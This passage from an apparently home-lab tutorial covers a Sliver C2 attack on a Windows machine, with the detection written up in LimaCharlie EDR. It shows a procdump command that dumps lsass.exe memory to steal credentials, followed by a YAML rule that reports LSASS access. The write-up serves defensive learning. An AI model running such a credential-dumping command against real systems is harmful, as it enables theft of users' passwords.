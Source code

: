 A lot of hits should be found, with various types of details:
<img src="https://imgur.com/CZt3uCf.png" height="80%" width="80%" />

<br />
<b>Now let's Go Bback to our Ubuntu Attacker.</b>

<h3>Stealing Windows Passwods from our Sliver Server</h3>

From our Sliver Session, let's run:

```
procdump -n lsass.exe -s lsass.dmp
```
This commandwill copy\dump the remote process from memory, and save it locally on your Sliver C2 server. Please note, this process could take up to 5 minutes.

<img src="https://imgur.com/40wnAE1.png" height="80%" width="80%" />
lsass.exe, handles the Windows' Local Authentication system service, and it's the one in charge of handling credentials and authenticating users.


<b>Now let's Go Bback to our Endpoint Detection and Response tool, LimaCharlie.</b>

We are going to detect this stealing attempt:
 -Since lsass.exe is a known sensitive process often targeted by credential stealing attackers, any security tool should automatically raise flags for this.
 -We need to go back to our Windows Sensor, and filter the timeline by SENSITIVE_PROCESS_ACCESS.
 -This will reveal details about the recent attack we started:
 <img src="https://imgur.com/2UfKQtL.png" height="80%" width="80%" />
 
Pay attention to the highlighted lines, to see the Source, Destination, and binaries involved in this attack. This and much more is available, from our LimaCharlie EDR tool.

<h4>Time to Defend ourselves, using a Detection and Response Rule</h4>

Click here to Build a D&R rule out of this TimeLine Entry.
<img src="https://imgur.com/eBkJWo1.png" height="80%" width="80%" />

For the Detection YAML detection we will use:
```
event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe
```
And the response will be tO:
```
- action: report
  name: LSASS accessed!
```

We’re telling LimaCharlie to simply generate a detection “report” anytime this detection occurs.

From here we may scroll down and click Test Event, and if it's green, go up again, and Save our new rule.
<img src="https://imgur.com/Ykc8YYd.png" height="80%" width="80%" />
